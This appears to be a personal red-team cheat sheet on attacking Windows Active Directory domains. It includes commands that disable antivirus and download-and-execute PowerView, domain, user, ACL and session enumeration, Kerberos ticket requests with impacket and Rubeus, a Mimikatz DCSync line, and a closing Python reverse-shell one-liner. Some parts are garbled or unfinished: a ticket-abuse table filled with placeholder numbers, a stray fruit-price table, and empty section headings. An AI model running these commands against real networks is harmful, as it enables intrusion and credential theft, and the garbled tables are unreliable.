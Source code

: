 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE


# ACTIVE DIRECTORY


## DOMAIN ENUMERATION

I do prefer to do manual enumeration but on large enterprice networks, some automated scan would come in handy to search for low hanging fruits

Automated Scanners
AdPeas.ps1

You can aswell use BloodHound to visualize data

```powershell
#For SharpHound.exe
./SharpHound.exe --CollectionMethod All

#For SharpHound.ps1
Invoke-BloodHound -ZipFileName ratloot -CollectionMethod All -Domain  rat.local

```
<span class="demo-highlight"># Patch AMSI or disable AV</span>

Getting hands dirty with PowerView
```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_DeV.ps1')
```
 <br>
 <span class="demo-highlight"># Domain & Controller Enumeration</span>

```powershell
Get-NetDomain 
            
Get-NetDomainController     
```
<br>
 <span class="demo-highlight"># User Enumeration</span>

```powershell
# Get all users present in the domain
Get-NetUsers | select cn

# Get users sorted with most logoncounts
Get-UserProperty -Properties logoncount | where logoncount | sort logoncount -Descending

# Get all the users in the domain and pipe their username to build a wordlist that could be used with crackmapexec later for spraying
Get-NetUsers | select samaccountname > username.txt

```
<br>
<span class="demo-highlight"># Group Enumeration </span>

```powershell
# Get AD groups data either all or of a user
Get-NetGroup [-Domain <target>] [-FullData] [-GroupName "*admin*"] [-Username 'user_name']

# Get Members of a group
Get-NetGroupMember [-GroupName 'group_name'] [-Recurse]	
```
<br>
<span class="demo-highlight"># Share Enumeration</span>

```powershell
# Find interesting shares
Invoke-ShareFinder -ExcludeStandard -ExcludeIPC -ExcludePrint	

```
<br>
<span class="demo-highlight"># GPO Enumeration</span>

```powershell
# List all GPOs in the domain
Get-NetGPO [-ComputerName <rat.domain>]	

#Find Interesting GPO
Get-NetGPOGroup

```
<br>
<span class="demo-highlight"># OU Enumeration</span>

```powershell
# Get all OU (Organisational Units) in the domain
Get-NetOU [-FullData]

# Get gplink of an OU to get GPOs applied to it
(Get-NetOU -Name 'test').gplink	

# Get GPO of a GPlink
Get-NetGPO -GPOName '{cadkfapsdfasdfaudvajkd}'

# Get GPO of an OU using gplink
((Get-NetOU -FullData <OU_NAME>).gplink -split "cn=" -split ",")[1] | Get-NetGPO
```
<br>
<span class="demo-highlight"># ACL Enumeration</span>

```powershell
# Find interesting ACL
Invoke-ACLScanner -ResolveGUIDS	

# Find interesting ACL owned by a certain user :rat:
Invoke-ACLScanner -ResolveGUIDS | ?{$_.IdentityReference -match 'rat'}	
```
<br>
<span class="demo-highlight"># Trust Enumeration</span>

```powershell
# Map all domain trust
Get-NetDomainTrust [-Domain <target>]

# Get all the domain of a forest
Get-NetForestDomain [-Forest <target>]	
```
<br>
<span class="demo-highlight"># Hunting Users and Sessions</span>

```powershell
# Get list of all machines where current user has local admin access
Find-LocalAdminAccess	

# Invoke-EnumerateLocalAdmin	
Find all admins on all computers

# Find machines where a domain admin has a session, checkaccess tells you if you also have access to that machine
Invoke-UserHunter [-GroupName <group_name>] [-CheckAccess]	

# Get list of active sessions on a computer
Get-NetSession [-ComputerName <comp_name>]	

# Get list of Users logged-on on a system
Get-LoggedOnLocal [-ComputerName <comp_name>]	
```

<br>
## Kerberos Attacks
<br>
<span class="demo-highlight"># working from linux with creds</span>


````powershell
# username : rat
# password : r@tty419
# domain : rodent.local
impacket-getTGT rodent.local/rat:'r@tty419'


# now import the ticket into memory
export KRB5CCNAME=/tmp/rat.ccache

# confirm the ticket in memory 
klist
````
<br>
<br>
<span class="demo-highlight"># working from windows with creds</span>
````powershell
# Using Rubeus

./Rubeus.exe asktgt 
````

<br>
using */altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm* in Rubeus you can ask for all the tickets
<br>
| Service Ticket   | Service Type | # Abuse funtino |
|--------------|:-----:|-----------:|
| CIFS         |Windows FileShare, PsExec |        739 |
| HOST         |PsRemoting, Scheduled Task | adcad |
| HTTP         |PsRemoting|$sess = New-PsSession -Computername DC01; Enter-PsSession -Session $sess |
| LDAP         |LDAP Ops, DCSync |Mimikatz > lsadump::dcsync /rat.local:$DC-IP /all /csv |
| RPCSS        |  1.99 |        739 |
| KRBTGT       |Golden Ticket |do anything lol,|

| HOST & RPCSS |WMI |  WMIEXEC|
| HOST & HTTP |WinRM |  WMIEXEC|

<br>
| Item         | Price     | # In stock |
|--------------|-----------|------------|
| Juicy Apples | 1.99      | *7*        |
| Bananas      | **1.89**  | 5234       |
<br>

## RTF && SCF Weaponization

<br>
<br>
<br>

# MITM6 IPV6 Attack

<br>
<br>
<br>




```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
